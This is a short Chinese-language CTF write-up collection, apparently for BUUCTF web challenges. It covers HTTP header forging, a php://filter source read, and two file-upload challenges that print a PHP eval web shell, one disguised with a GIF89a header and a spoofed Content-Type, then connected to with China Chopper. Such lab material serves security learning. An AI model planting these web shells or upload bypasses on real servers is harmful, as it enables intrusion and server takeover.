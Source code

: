 # 001_[极客大挑战 2019]Http(Http基础)

查看源码找到 Secret.php

打开 Secret.php 按照要求分别伪造

Refere：https://www.Sycsecret.com

X-forwarded-for：127.0.0.1

User-Agent：Syclover

之后发送请求，即可获取flag


# 002_[极客大挑战 2019]Secret File(PHP基础)

获取 action.php

由于 action.php 使用了302跳转，浏览器看不到具体内容，使用 burpsuite 获取 action.php 内容

得到 secr3t.php

之后使用 file=php://filter/convert.base64-encode/resource=flag.php 获取 base64 编码的 flag.php

然后解码获取flag

# 003_[ACTF2020 新生赛]Upload(文件上传)  

删除前端上传检测事件

上传 phtml 格式的一句话木马

```phtml
<script language='php'>@eval($_POST['a']);</script>
```

使用中国菜刀链接服务器获取flag

# 004_[极客大挑战 2019]Upload(文件上传) 

使用 BurpSuite 修改上传文件头为 `Content-Type: image/jpeg`

然后上传 

```phtml
GIF89a? <script language='php'>@eval($_POST['a']);</script>
```

使用中国菜刀链接服务器获取flag

# 005_[RoarCTF 2019]Easy Calc(PHP基础)

## 基础知识
